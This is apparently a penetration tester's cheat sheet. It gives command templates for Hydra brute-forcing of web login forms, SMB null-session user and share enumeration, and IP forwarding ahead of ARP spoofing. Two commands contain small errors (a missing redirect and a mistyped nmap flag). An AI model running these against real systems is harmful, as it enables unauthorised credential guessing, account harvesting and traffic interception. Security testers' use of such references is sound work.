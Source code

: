 [Mode Reference](https://hashcat.net/wiki/doku.php?id=example_hashes)  
[Hash-Identifier Github](https://github.com/blackploit/hash-identifier)  
[Sample Hashes](https://openwall.info/wiki/john/sample-hashes)

---
---

## Hydra Bruteforce
- -l = single user
- -L = user list
- -p = single password
- -P = password list
- -f = exit after successful login

### HTTP Form
`hydra {url} http-post-form "{url endpoint e.g. /login.php}:user=^USER^&pass=^PASS^:{rejected credentials e.g. invalid credentials" -l {username} -P {list} -f`  

---
---

## SMB NULL Session
- -n = nmblookup
- -P = enumerate password policy
- -S = enumerate shares

`enum4linux -n {target}`  
`enum4linux -P {target}`  
`enum4linux -S {target}`  

samrdump (Impacket) with no auth to dump SAM data and get usernames:  
`samrdump.py {target}`  

nmap can enum and exploit smb shares also:  
`nmap -script=smb-enum-shares {target}`  
`nmap -script=smb-enum-users {target}`  
`nmap -script-smb-brute {target}`  

## Alternatives
nbtstat:  
`nbtstat -A {target}`
- <00> signifies a workstation
- <20> signifies file sharing service is active 

smbclient:  
`smbclient -L //{target} -N`

---
---

## IP forwarding & ARP Spoofing
Enable ip_forwarding to pass packets, remain stealthy and prevent inadvertent DDoS of the network:  
`echo 1 /proc/sys/net/ipv4/ip_forward`  
